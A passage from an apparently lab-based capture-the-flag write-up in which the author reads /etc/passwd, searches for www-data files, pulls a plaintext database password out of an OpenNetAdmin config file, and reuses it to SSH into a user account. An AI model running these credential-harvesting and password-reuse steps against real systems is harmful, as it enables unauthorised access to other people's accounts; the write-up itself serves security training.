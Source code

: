 ```
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

Things to note from this are the Jimmy and Joanna users we are going to want to pivot onto. This means we are going to need to find some credentials.

`$ find / -type f -user www-data`

this dumps a very long list of files which the user www-data can read. I chose to copy this into a text file so i can go through it. (I won't inlcude it here since its 2000 lines long).

the most interesting directory I found was `/opt/ona/www/local/config`
Within this directory i saw the file `database_settings.inc.php`


`$ cat /opt/ona/www/local/config/database_settings.inc.php`

```
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

upon opening the file we get our first password. From /ect/passwd we can see mysql is set to bin/false so I won't try to login to that.

## User 1 (Jimmy)

Using ssh I was able to connect to Jimmys account using `jimmy:n1nj4W4rri0R!`

```
ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 29 20:34:36 UTC 2020

  System load:  0.07              Processes:             141
  Usage of /:   49.6% of 7.81GB   Users logged in:       2
  Memory usage: 28%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
```